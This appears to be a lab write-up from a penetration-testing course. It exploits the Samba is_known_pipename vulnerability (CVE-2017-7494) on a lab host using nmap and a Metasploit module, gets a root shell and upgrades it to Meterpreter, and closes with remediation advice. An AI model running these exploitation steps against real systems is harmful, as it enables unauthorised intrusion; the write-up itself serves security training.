









# Vulnerable File Sharing Service

**Classification:** Host & Network Penetration Testing / The Metasploit Framework<br>
**Target:** demo.ine.local (192.199.60.3) — Debian 8.11, Samba<br>
**Objective:** Get a shell by exploiting the file-sharing service.

## 1. Executive Summary

The target exposes a **Samba** file-sharing service vulnerable to **is_known_pipename**
(CVE-2017-7494) — it loads a malicious shared library uploaded to a writable share.
Exploiting it yields a **root** command shell, which we upgrade to Meterpreter.

## 2. Recon

```bash
ping -c 4 demo.ine.local
db_nmap -sV 192.199.60.3
db_nmap -sV -sC -p445 192.199.60.3
```











## 3. Exploitation

```bash
use exploit/linux/samba/is_known_pipename
set RHOSTS 192.199.60.3
run
```

A root command shell opens.



## 4. Upgrading to Meterpreter

```bash
background
sessions -u 1
sessions 2
```





```
sysinfo    # Debian 8.11
getuid     # root
```



## 5. Remediation Recommendations

1. **Patch Samba** (CVE-2017-7494) and set `nt pipe support = no` where feasible.
2. **Remove writable/guest-writable shares** that allow uploading and loading modules.
3. **Run Samba with least privilege** and expose it only to trusted networks.
